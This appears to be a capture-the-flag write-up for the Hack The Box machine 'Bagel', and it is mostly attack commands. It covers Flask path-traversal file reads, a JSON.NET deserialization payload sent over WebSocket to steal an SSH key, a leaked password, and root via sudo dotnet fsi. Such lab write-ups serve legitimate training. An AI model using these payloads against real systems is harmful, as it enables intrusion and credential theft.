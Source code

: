 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - [HTTP](HTTP.md) File Read via Flask route `?page=`
  - Python `proc` analysis to leak source
  - DLL retrieval from .NET server 🎯
  - JSON.NET deserialization exploit in WebSocket 📡
  - Private SSH Key exfiltration 🗝️
  - Pivot to developer via hardcoded creds
  - [dotnet](https://learn.microsoft.com/en-us/dotnet/core/tools/dotnet) F# execution as root via `sudo`

- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP.md) (8000) – Flask
  - [HTTP](HTTP.md) (5000) – WebSocket + .NET Core

---

[Tools](Tools)
- `nmap` 🔍
- `feroxbuster` 🦡
- `ffuf` 🚀
- `curl` 🌐
- `wscat` 📡
- `jq` 🧪
- `dnSpy` 🔬
- `dotnet`, `fsi`, and `bash` 🧠
- `ssh`, `su` 🧑‍💻

---

### Commands to Solve Box

#### 🔍 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.201
nmap -p 22,5000,8000 -sCV 10.10.11.201
feroxbuster -u http://bagel.htb:8000
```

#### 📂 Initial Access (via Flask)
```bash
curl http://bagel.htb:8000/?page=../../../../etc/passwd
curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
curl http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
```

#### 🧠 DLL Retrieval
```bash
curl http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll -o bagel.dll
```
Open with [dnSpy](https://github.com/dnSpy/dnSpy) or `ilspy`.

#### 📡 WebSocket Deserialization
```bash
wscat -c ws://bagel.htb:5000
# Send malicious JSON:
{"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
```

Reformat the key:
```bash
echo $KEY | jq -r . > ~/keys/bagel-phil
chmod 600 ~/keys/bagel-phil
ssh -i ~/keys/bagel-phil phil@bagel.htb
```

#### 🔐 Pivot to developer
```bash
su - developer  # password from DLL: k8wdAYYKyhnjg3K
```

#### 👑 Root via dotnet F#
```bash
sudo dotnet fsi
> System.Diagnostics.Process.Start("bash").WaitForExit();;
```

Alt: Make custom C# app
```bash
mkdir /dev/shm/exploit && cd /dev/shm/exploit
dotnet new console
nano Program.cs  # insert reverse shell or bash
sudo dotnet run
```

---

### ✅ Actions Learned From This Box
- 🐍 How Flask apps can be abused through `?page=` file reads
- 🔍 Reconnaissance with `/proc` to locate running source code
- 📦 Decompiling .NET DLLs to discover vulnerabilities
- 🔓 JSON.NET deserialization bugs via TypeNameHandling 🧨
- 🗝️ Pivoting to users via private key exfiltration
- 💻 F# interactive exploitation for privilege escalation
- 🧰 Rebuilding structured payloads using `jq` and terminal tricks
- 🧪 Understanding .NET internals (runtimeconfig, dll paths, etc.)

---

### References 📚
- 📘 [Json.NET Deserialization Exploit Writeup](https://blog.doyensec.com/2020/02/10/json-deserialization-in-dotnet.html)
- 🧪 [wscat](https://github.com/websockets/wscat)
- 🔐 [F# Interactive (fsi)](https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/fsi/)
- 💣 [dotnet TypeNameHandling vulnerability](https://www.hanselman.com/blog/remote-code-execution-via-json-deserialization-in-net)
- 📦 [dnSpy GitHub](https://github.com/dnSpy/dnSpy)

---

Let me know when you're ready for another writeup! 🧠🔥🥯
